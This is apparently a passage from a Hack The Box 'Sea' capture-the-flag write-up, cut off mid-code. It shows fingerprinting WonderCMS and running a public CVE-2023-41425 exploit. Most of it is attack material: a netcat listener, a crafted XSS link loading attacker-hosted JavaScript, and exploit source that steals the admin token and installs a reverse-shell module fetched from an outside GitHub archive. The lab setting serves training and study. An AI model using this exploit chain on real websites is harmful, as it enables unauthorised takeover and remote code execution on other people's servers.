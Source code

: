 Found that the version is 3.2.0:

```console
└──╼ [★]$ curl http://sea.htb/themes/bike/version
3.2.0
```
Related exploit: `https://github.com/prodigiousMind/CVE-2023-41425`

```console
└──╼ [★]$ python3 exploit.py 
usage: python3 exploit.py loginURL IP_Address Port
example: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252
┌─[sg-vip-1]─[10.10.14.11]─[kazma@htb-dcoyyfmrg1]─[~/CVE-2023-41425]
└──╼ [★]$ python3 exploit.py http://sea.htb/themes/ 10.10.14.11 4444
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 4444
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/themes/"></form><script+src="http://10.10.14.11:8000/xss.js"></script><form+action="
----------------------------


starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then after reading the description of github README.md, we will find that it is one click RCE, so let’s take a look at his exploit and simulate that click:

```console
└──╼ [★]$ cat exploit.py 
# Author: prodigiousMind
# Exploit: Wondercms 4.3.2 XSS to RCE


import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
```